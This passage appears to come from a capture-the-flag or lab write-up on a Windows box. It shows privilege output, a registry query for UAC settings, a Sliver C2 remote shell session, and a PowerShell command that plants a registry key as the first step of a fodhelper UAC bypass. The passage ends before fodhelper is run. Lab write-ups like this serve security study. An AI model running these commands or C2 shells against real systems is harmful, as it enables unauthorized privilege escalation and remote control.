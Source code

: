 ```c
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

ERROR: Unable to get user claims information.
```

We checked if `UAC` was enabled on the box.

```c
C:\Users\admin\Downloads>REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

## UAC Bypass

We used `fodhelper.exe` to bypass `UAC`.

- [https://github.com/nobodyatall648/UAC_Bypass](https://github.com/nobodyatall648/UAC_Bypass)

We spawned a shell with sliver and executed the following commands.

```c
sliver (lock-https) > use a3726789-d904-4d9a-a198-2f1adaa12752

[*] Active session lock-https (a3726789-d904-4d9a-a198-2f1adaa12752)

sliver (lock-https) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 4528

PS C:\Windows\system32> whoami
whoami
escape\admin
```

```c
PS C:\Users\admin\Downloads> New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "C:\Users\admin\Downloads\lync.exe" -Force
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "C:\Users\admin\Downloads\lync.exe" -Force

    Hive: HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open

Name                           Property                                          
----                           --------                                          
command                        (default) : C:\Users\admin\Downloads\lync.exe
```
